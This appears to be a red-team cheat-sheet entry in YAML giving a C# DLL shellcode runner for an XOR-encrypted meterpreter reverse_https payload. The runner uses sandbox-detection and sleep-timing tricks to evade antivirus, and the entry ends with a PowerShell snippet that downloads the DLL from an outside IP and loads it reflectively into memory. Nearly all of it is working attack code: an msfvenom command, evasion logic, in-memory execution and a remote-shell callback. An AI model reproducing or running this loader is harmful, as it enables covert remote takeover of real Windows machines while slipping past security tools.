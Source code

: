 ```yaml
---
description: |
  Shellrunner in managed DLL, with the below code you can create a DLL that hold an meterpreter shell. Host this DLL on your webserver and retrieve it via the second part of the code, which makes sure the DLL is directly loaded into the memory of the Windows machine.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a




command: |

    ```
    using System;
    using System.Runtime.InteropServices;

    namespace ShellcodeRunner
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void Run()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[657] {0x9d,0x29,0xe2, [...]
                                ,0x9e,0xb4};

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, buf.Length);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }
    ```
    ```
    $data = (New-Object System.Net.WebClient).DownloadData('http://10.10.14.21/ShellcodeRunner.dll')

    $assem = [System.Reflection.Assembly]::Load($data)
    or (for local file)
    $assem = [System.Reflection.Assembly]::LoadFile("C:\user\documents\ClassLibrary1.dll")

    $class = $assem.GetType("ShellcodeRunner.Program")
    $method = $class.GetMethod("Run")
    $method.Invoke(0, $null)
    Or
    $a = [ShellcodeRunner.Program]::Run()
    ```

items:
    - Shell

services:
    - AV
OS:
    - Windows
attack_types:
    - Persistence
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/process-injectors#c-dll-via-win32-api
--- 
```



